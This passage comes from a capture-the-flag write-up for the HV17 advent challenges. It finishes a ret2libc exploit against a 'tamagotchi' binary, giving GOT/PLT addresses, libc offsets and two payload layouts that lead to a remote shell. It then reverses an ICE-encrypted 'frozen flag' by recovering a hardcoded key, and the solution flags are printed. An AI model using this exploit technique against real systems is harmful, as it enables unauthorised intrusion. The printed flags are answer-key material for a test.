   objdump -R tamagotchi reveals: 0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
- Then we need to have the address of a puts call to PLT  
  use gdb and search for a puts call (its in main() here)  
  gdb tamagotchi  
  dissassemble main  
  We find: 0x4004b0 <puts@plt>
- Lastly we need the address of main() to jump back to. When we would do this on two separate sessions, ASLR might have relocated the functions again!  
  in gdb simply type "p main" to get 0x4006ca <main>
- Now we can construct the first part of our exploit:  
  A*216 + 0x0000000000400803 + 601018 + 4004b0 + 4006ca
- So when we call bye, this will print the address of puts and return to main, so keeps running.
- Afterwards, we have to calculate the base address of libc
- readelf -s libc-2.26.so | grep puts reveals  
  411: 0000000000078460   528 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
- Do the same for system: 1378: 0000000000047dc0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
- And now we have to get the offset of /bin/sh..  
  xxd libc-2.26.so | grep "/bin/sh": 001a3ee0
- So after we acquired the remote address for puts from the server, we calculate the base address of libc: remote_libc_base = remote_puts_addr - libc_puts_offset
- Then we can calculate the remote addresses of system and /bin/sh:  
  remote_system_addr = remote_libc_base + libc_system_offset  
  remote_binsh_addr = remote_libc_base + libc_binsh_offset
- Then we send our second exploit package:  
  A*216 + 0x0000000000400803 + remote_binsh_addr + remote_system_addr
- And we have the remote terminal! Search in tamagotchis home folder to find the flag.
- FLAG: *HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d*

## Day 22
**frozen flag**  
todays flag is frozen. its quite cold in santas house at the north pole.  
can you help him to unfreeze it?
- Download the [executable](day22/frozen_flag.zip) and run it -> nothing happens
- Tried to open it with radare2 and check the strings and stuff -> really big executable, so RE will be a tough one..
- Lets play around with the exe.. When you give it any random parameter, also nothing happens..
- But when you give him the flag file as parameter, the file is changed.. Ok so it seems the first parameter gets read somehow, modified and written.
- When you give any other existing file as parameter, the HV file changes also.. -> So the output file seems to be hardcoded.
- Furthermore, the output file size is equal to the input file size. And when you have multiple times the same string as input, the output also repeats itself..! And the output is always the same, even when the file is called multiple times.
- So this could implement some cipher algorithm (most likely symmetric with static IV)
- Using PEiD and its Krypto ANALyzer plugin, we see that there is an "ICE S-Box" present  
  This would also fit perfectly to the exe name and the challenge description!
- ICE (Information Concealment Engine) is a symmetric algorithm with a blocksize of 64bits
- The password has to be somewhere inside the binary, otherwise we would have to pass it to the program.. So lets have a look at the included strings (-> nothing worked) or then with radare2.
- Open the binary in r2, navigate to main (s main) and view the code (pd)
- There is some string built (8 bytes long!) -> PW = "ice-cold"
- Now i used the C API for ICE to build my decipher, there is one additional parameter (level) we have to pass. As i dont know, we try both.
- For level=0 the output is complete rubbish, with level=1, the first part seems to match, but then there is only rubbish again..
- ICE does CBC when we pass the whole frozen_flag as input, so to avoid this, lets try passing only 8 bytes per call
- FLAG: *HV17-9VmF-xULb-fRVU-pvgb-KhZo*
